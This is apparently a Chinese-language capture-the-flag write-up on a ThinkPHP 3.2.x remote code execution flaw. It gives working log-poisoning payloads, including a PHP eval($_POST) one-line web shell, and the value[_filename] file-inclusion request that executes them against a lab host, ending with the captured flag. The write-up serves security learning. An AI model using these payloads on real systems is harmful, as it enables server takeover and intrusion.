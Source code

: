 # ThinkPHP 3.2.x远程代码执行
## 漏洞描述
ThinkPHP的远程代码执行漏洞是在受影响的版本中，业务代码中如果模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

## 影响版本
ThinkPHP3.2.x

## 利用流程
1.访问地址：118.193.36.37:59521
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/1.jpg)
2.写入攻击代码到日志中。错误请求系统报错：
```
118.193.36.37:59521/index.php?m=--><?=phpinfo();?>
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/2.png)
3.日志文件路径（这里是默认配置的log文件路径，ThinkPHP的日志路径和日期相关）：
```
\Application\Runtime\Logs\Common\21_07_20.log
```
4.构造攻击请求：
```
118.193.36.37:59521/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_20.log
```
5.蚁剑连接 
```
118.193.36.37:59521/index.php?m=--><?=eval(@$_POST['a']);?>
```
测试成功 但无法访问 传入phpinfo Ctrl+g得到flag
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/3.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/4.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/5.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/6.jpg)
